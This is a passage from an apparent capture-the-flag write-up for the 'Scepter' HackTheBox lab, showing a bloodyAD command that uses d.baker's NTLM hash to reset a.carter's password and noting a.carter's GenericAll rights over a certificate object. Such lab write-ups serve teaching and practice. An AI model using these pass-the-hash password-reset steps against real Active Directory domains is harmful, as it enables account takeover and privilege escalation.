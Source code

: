 
We can see that `d.baker` has permissions to change the password of `a.carter`.
![scepter-1745115847556.png](/assets/img/img_scepter/scepter-1745115847556.png)
So let's change his password.
```bash
bloodyAD --host $TARGET -d scepter.htb -u d.baker -p :18b5fb0d99e7a475316213c15b6f22ce set password a.carter P@ssword

[+] Password changed successfully!
```

`a.carter` is a member of `it support` who has `generic all` permission on `staff access certificate`.

![scepter-1745116573086.png](/assets/img/img_scepter/scepter-1745116573086.png)
